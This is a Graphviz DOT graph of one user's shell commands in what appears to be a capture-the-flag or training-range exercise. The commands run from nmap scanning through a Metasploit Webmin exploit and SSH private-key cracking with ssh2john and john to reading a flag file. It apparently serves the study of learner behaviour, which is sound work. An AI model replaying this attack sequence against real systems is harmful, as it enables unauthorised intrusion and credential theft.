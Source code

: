 // creating graph for user: 84
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 "]
	1 [label="nmap 172.18.1.5 A0 "]
	2 [label="ls U"]
	3 [label="metasploit U"]
	4 [label="msf-console U"]
	5 [label="sudo service postgresql start U"]
	6 [label="sudo msfdb init U"]
	7 [label="msfconsole U"]
	8 [label="search webmin U"]
	9 [label="use  U"]
	10 [label="use 2 U"]
	11 [label="check U"]
	12 [label="show options U"]
	13 [label="set RHOST 172.18.1.5 U"]
	14 [label="set RPORT 10000 U"]
	15 [label="check U"]
	16 [label="search webmin U"]
	17 [label="use ~ U"]
	18 [label="use 3 U"]
	19 [label="search webmin U"]
	20 [label="use 3 U"]
	21 [label="show options U"]
	22 [label="set SRVHOST 172.18.1.5 U"]
	23 [label="check U"]
	24 [label="set SRVHOST 0.0.0.0 U"]
	25 [label="set RHOST 172.18.1.5 U"]
	26 [label="check U"]
	27 [label="exploit U"]
	28 [label="set LHOST 147.251.83.13 U"]
	29 [label="exploit U"]
	30 [label="set LPORT 12345 U"]
	31 [label="exploit U"]
	32 [label="set LHOST 100.100.100.2 U"]
	33 [label="exploit U"]
	34 [label="set LPORT  U"]
	35 [label="set LPORT 4444 U"]
	36 [label="exploit U"]
	37 [label="set LHOST 10.1.135.83 U"]
	38 [label="nmap 10.1.17.4 A0 "]
	39 [label="ssh 10.1.17.4 U"]
	40 [label="ssh eve@10.1.17.4 U"]
	41 [label="cd .ssh U"]
	42 [label="ls U"]
	43 [label="nano id_rsa U"]
	44 [label="ssh-add id_rsaaaa U"]
	45 [label="ssh_add id_rsa U"]
	46 [label="ssh-add id_rsaa U"]
	47 [label="ssh-add id_rsa U"]
	48 [label="chmod #033[2~ id_rsa U"]
	49 [label="exploit U"]
	50 [label="chmod 600 id_rsa U"]
	51 [label="ssh-add id_rsa U"]
	52 [label="ssh-add id_rsa U"]
	53 [label="ssh eve@10.1.17.4 U"]
	54 [label="ls U"]
	55 [label="mv id_rsa ../id_rsa U"]
	56 [label="cd .. U"]
	57 [label="ll U"]
	58 [label="ls U"]
	59 [label="./ssh2john.py U"]
	60 [label="./ssh2john.py id_rsa U"]
	61 [label="./ssh2john.py id_rsa > hash U"]
	62 [label="ls U"]
	63 [label="joh hash --show U"]
	64 [label="john hash --show U"]
	65 [label="john hash --show U"]
	66 [label="john hash --show U"]
	67 [label="john hash U"]
	68 [label="gunzip /usr/share/wordlists/rockyou.txt.gz U"]
	69 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash U"]
	70 [label="ssh eve@10.1.17.4 U"]
	71 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash > result U"]
	72 [label="cat result U"]
	73 [label="ssh eve@10.1.17.4 U"]
	74 [label="ssh eve@10.1.17.4 U"]
	75 [label="mv id_rsa .ssh/id_rsa U"]
	76 [label="ssh eve@10.1.17.4 U"]
	77 [label="ssh eve@10.1.17.4 U"]
	78 [label="ls U"]
	79 [label="cat top-secret U"]
	80 [label="cd top-secret U"]
	81 [label="ls -la U"]
	82 [label="cat flag.txt A8 M8 "]
	83 [label="ls U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	rankdir=LR
}
